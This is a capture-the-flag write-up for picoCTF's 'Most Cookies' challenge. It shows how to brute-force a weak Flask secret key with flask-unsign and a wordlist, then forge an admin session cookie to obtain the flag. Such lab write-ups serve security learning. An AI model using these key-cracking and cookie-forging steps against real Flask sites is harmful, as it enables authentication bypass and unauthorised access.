 # Most Cookies

## Description:
"I’ll just use Flask session cookies. They're secure enough!"  
server.py http://mercury.picoctf.net:18835/

---

## Hint:
1. **How secure is a Flask cookie?**

---

## Solution:

### Analysis of `server.py`
From the reference code, the following snippet is critical:  

```python
def flag():
    if session.get("very_auth"):
        check = session["very_auth"]
        if check == "admin":
            resp = make_response(render_template("flag.html", value=flag_value, title=title))
            return resp
        flash("That is a cookie! Not very special though...", "success")
        return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
    else:
        resp = make_response(redirect("/"))
        session["very_auth"] = "blank"
        return resp
```

The function checks for the `very_auth` cookie in the session. If the value is `"admin"`, it grants access to the flag. Otherwise, it displays a default message.

### Observations:
**Session cookie:** Inspecting the browser’s developer tools (Application > Storage > Cookies), I found a cookie named `session` with this value:  
   ```
   eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.YGEboA.IQGWCL0DE41HutgJ_FAK438Iams
   ```
Decoding the session cookie reveals its content:  
   ```json
   {"very_auth": "blank"}
   ```
**Session signing:** Flask session cookies use encryption with a secret key to protect their integrity. 


Using the [flask-unsign](https://github.com/davidteather/flask-unsign) tool, we can brute force the application's secret key.

> Install flask-unsign:
```bash
pip3 install flask-unsign
```
> Decode the cookie:
Run the following command:
```bash
flask-unsign --decode --cookie 'eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.YGEboA.IQGWCL0DE41HutgJ_FAK438Iams'
```
Output:
```json
{'very_auth': 'blank'}
```

Brute-forcing the secret key:
The `server.py` reference includes a `cookie_names` list. Since the secret key is randomly chosen from this list, we can use it as a wordlist for brute-forcing.

1. Save the session cookie value in a file (`cookie.txt`):  
   ```
   eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.YGEboA.IQGWCL0DE41HutgJ_FAK438Iams
   ```
2. Save the `cookie_names` list in a `wordlist.txt` file.

3. Run the following command to brute force the secret key:
   ```bash
   flask-unsign --unsign --cookie $(cat cookie.txt) --wordlist wordlist.txt
   ```

Output:
```
Secret key: fortune
```


Now that we know the secret key (`fortune`), we can craft a new session cookie with the `very_auth` value set to `"admin"`.


Using [flask-session-cookie-manager](https://github.com/noraj/flask-session-cookie-manager), encode the cookie:
```bash
python3 flask_session_cookie_manager3.py encode -s fortune -t "{'very_auth':'admin'}"
```

Output:
```
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YGEVdA.Fqe_gJWtcM37UiFmpaWsMkhel6w
```


Go to the developer tools (Application > Storage > Cookies) and replace the `session` cookie value with the forged cookie:
   ```
   eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YGEVdA.Fqe_gJWtcM37UiFmpaWsMkhel6w
   ```
Then I refreshed the page:

---

### Step 4: Get the flag
The page now reveals the flag:  
```
picoCTF{pwn_4ll_th3_cook1E5_25bdb6f6}
```

---

## References:
### server.py:
```python
from flask import Flask, render_template, request, url_for, redirect, make_response, flash, session
import random
app = Flask(__name__)
flag_value = open("./flag").read().rstrip()
title = "Most Cookies"
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)
...
```

### wordlist.txt:
```
snickerdoodle
chocolate chip
oatmeal raisin
gingersnap
shortbread
peanut butter
whoopie pie
sugar
molasses
kiss
biscotti
butter
spritz
snowball
drop
thumbprint
pinwheel
wafer
macaroon
fortune
crinkle
icebox
gingerbread
tassie
lebkuchen
macaron
black and white
white chocolate macadamia
```
